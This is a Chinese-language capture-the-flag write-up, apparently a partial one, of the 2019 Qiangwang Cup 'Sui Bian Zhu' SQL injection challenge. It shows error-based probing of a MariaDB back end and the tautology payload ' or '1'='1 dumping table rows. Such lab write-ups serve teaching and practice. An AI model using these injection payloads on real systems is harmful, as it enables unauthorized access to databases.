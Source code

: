 # [强网杯 2019]随便注

## 题目介绍

## 题目解析

*   开题一个注，剩下全靠试。
*   尝试默认的`1`输入后，出现一个数组列表。

```
array(2) {
  [0]=>
  string(1) "1"
  [1]=>
  string(7) "hahahah"
} 
```

*   发现除了`1`还有`hahahah`，这里是`PHP`将查询结果返回的数据组织格式，意味着`1`的查询对应`hahahah`的输出。
*   `'`作为输入，得到报错信息。

```
error 1064 : You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''''' at line 1 
```

*   说明在这个`'`之外还有两个单引号，此处为字符型注入。
*   使用万能钥匙`' or '1'='1`输入得到可查询的内容。

```
array(2) {
  [0]=>
  string(1) "1"
  [1]=>
  string(7) "hahahah"
}

array(2) {
  [0]=>
  string(1) "2"
  [1]=>
  string(12) "miaomiaomiao"
}

array(2) {
  [0]=>
  string(6) "114514"
  [1]=>
  string(2) "ys"
} 
```
